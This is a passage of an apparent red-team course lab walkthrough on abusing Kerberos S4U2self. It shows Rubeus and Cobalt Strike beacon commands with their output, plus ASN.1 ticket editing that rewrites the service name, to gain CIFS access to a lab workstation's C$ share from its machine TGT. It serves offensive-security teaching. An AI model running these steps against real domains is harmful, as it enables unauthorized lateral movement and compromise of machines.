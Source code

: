 As we saw in the previous two examples of constrained delegation, there are two S4U (Service for User) extensions.  S4U2self (Service for User to Self) and S4U2proxy (Service for User to Proxy).  S4U2self allows a service to obtain a TGS to itself on behalf of a user, and S4U2proxy allows the service to obtain a TGS on behalf of a user to a second service.

When we abused constrained delegation, we did: Rubeus `s4u /impersonateuser:nlamb /msdsspn:cifs/wkstn-2.dev.cyberbotic.io /user:srv-2$`.

From the output, we saw Rubeus first builds an S4U2self request and obtains a TGS for **nlamb** to **srv-2/dev.cyberbotic.io**.  It then build an S4U2proxy request to obtain a TGS for **nlamb** to **cifs/wkstn-2.dev.cyberbotic.io**.

This is obviously working by design because SRV-2 is specifically trusted for delegation to that service.  However, there's another particularly useful way, published by [Elad Shamir](https://twitter.com/elad_shamir), to abuse the S4U2self extension - and that is to gain access to a domain computer if we have its RC4, AES256 or TGT.

There are means of obtaining a TGT for a computer without already having local admin access to it, such as pairing the Printer Bug and a machine with unconstrained delegation, NTLM relaying scenarios and Active Directory Certificate Service abuse (the later two are covered in later modules).

We can demonstrate this with a TGT for WKSTN-2, which we can obtain via the Printer Bug exercise.  If we import the TGT into a sacrificial session and try and access C$, it will fail.

```
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> make_token DEV\WKSTN-2$ FakePass
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\wkstn-2-tgt.kirbi

beacon> ls \\wkstn-2.dev.cyberbotic.io\c$
[-] could not open \\wkstn-2.dev.cyberbotic.io\c$\*: 5
```

  
This is because machines do not get remote local admin access to themselves over CIFS.  What we can do instead is abuse S4U2self to obtain a TGS to itself, as a user we know _is_ a local admin (e.g. a domain admin).

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /user:WKSTN-2$ /msdsspn:cifs/wkstn-2.dev.cyberbotic.io /impersonateuser:nlamb /ticket:doIFLz[...snip...]MuSU8= /nowrap

[*] Action: S4U
[*] Building S4U2self request for: 'WKSTN-2$@DEV.CYBERBOTIC.IO'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Sending S4U2self request to 10.10.17.71:88
[+] S4U2self success!
[*] Got a TGS for 'nlamb' to 'WKSTN-2$@DEV.CYBERBOTIC.IO'
[*] base64(ticket.kirbi):

      doIFdD [...snip...] MtMiQ=

[*] Impersonating user 'nlamb' to target SPN 'cifs/wkstn-2.dev.cyberbotic.io'
[*] Building S4U2proxy request for service: 'cifs/wkstn-2.dev.cyberbotic.io'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Sending S4U2proxy request to domain controller 10.10.17.71:88

[X] KRB-ERROR (13) : KDC_ERR_BADOPTION
```

  

The S4U2proxy step will fail, which is fine.  Write the S4U2self TGS to a file.

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi", [System.Convert]::FromBase64String("doIFdD [...snip...] MtMiQ="))
```

  

Use `Rubeus describe` to show information about the ticket.

```
C:\Tools\Rubeus\Rubeus\bin\Debug>Rubeus.exe describe /ticket:C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

[*] Action: Describe Ticket

  ServiceName              :  WKSTN-2$
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  2/28/2022 7:30:02 PM
  EndTime                  :  3/1/2022 5:19:32 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Vo7A9M7bwo7MvjKEkbmvaWcEn+RSeSU2RbsL42kT4p0=
```

  

The `ServiceName` of WKSTN-2$ is not valid for our use - we want it to be for CIFS.  This can be easily changed, because as we saw in the constrained delegation alternate service name demo, the service name is not in the encrypted part of the ticket and is not "checked".

To modify the ticket, open it with the ASN editor in `C:\Tools\Asn1Editor`.  Find the two instances where the **GENERAL STRING** "WKSTN-2$" appears.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/kerberos/asneditor_before.png)

  

Double-click them to open the **Node Content Editor** and replace these strings with "cifs".  We also need to add an additional string node with the FQDN of the machine.  Right-click on the parent **SEQUENCE** and select **New**.  Enter **1b** in the **Tag** field and click **OK**.  Double-click on the new node to edit the text.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/kerberos/asneditor_after.png)

  

Save the ticket and use `Rubeus describe` again.  Notice how the `ServiceName` has now changed.

```
C:\Tools\Rubeus\Rubeus\bin\Debug>Rubeus.exe describe /ticket:C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

[*] Action: Describe Ticket

  ServiceName              :  cifs/wkstn-2.dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  2/28/2022 7:30:02 PM
  EndTime                  :  3/1/2022 5:19:32 AM
  RenewTill                :  1/1/0001 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Vo7A9M7bwo7MvjKEkbmvaWcEn+RSeSU2RbsL42kT4p0=
```

  

To use the ticket, simply pass it into your session.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

beacon> ls \\wkstn-2.dev.cyberbotic.io\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:35:19   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     01/20/2022 15:43:43   Program Files
          dir     02/16/2022 12:46:57   Program Files (x86)
          dir     01/20/2022 16:46:38   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/19/2021 14:45:10   System Volume Information
          dir     05/05/2021 16:13:00   Users
          dir     05/06/2021 09:35:17   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     02/28/2022 09:30:57   pagefile.sys
```


